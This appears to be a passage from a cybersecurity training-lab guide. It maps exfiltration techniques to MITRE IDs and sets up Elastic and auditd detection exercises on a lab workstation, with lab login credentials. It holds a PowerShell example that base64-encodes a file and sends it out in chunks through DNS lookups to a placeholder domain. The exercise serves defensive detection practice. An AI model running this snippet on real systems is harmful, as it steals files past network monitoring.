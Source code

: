 ##### Exfiltration
- **T1041 - Exfiltration Over C2 Channel**: Chunked Base64 data sent via HTTPS POST.
- **T1048.003 - DNS Tunneling**:
  ```powershell
  $data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("sensitive.pdf"))
  $chunks = $data -split "(.{50})" | Where-Object { $_ -ne "" }
  foreach ($chunk in $chunks) {
  nslookup "$chunk.exfildomain.com"
  }
  ```

-----

| &#9888; NOTE |
|---|
| Auditd and the Elastic Agent are pre-installed on the **workstation** virtual machine. An auditd rule is in place to audit the execution of the PowerShell binary. |

## System Tools and Credentials

| system | IP address | operating system |  username | password |
|--------|---------|-----------|----------| ----- |
| workstation | 10.1.1.51 | Ubuntu | user | tartans|

## Applications
| Application | URL | Username | Password |
| --- | --- | --- | --- |
| Elastic | `https://elastic.skills.lab` | user | tartans |

## Phase 1

<details><summary>
<h3>Verifying System Logging</h3>
</summary></details>

<details><summary>
<h3>Grading Check</h3>
</summary></details>

## Phase 2

<details><summary>
<h3>Exploring Predefined Elastic Security Rules</h3>
</summary></details>

<details><summary>
<h3>Grading Check</h3>
</summary></details>

## Phase 3
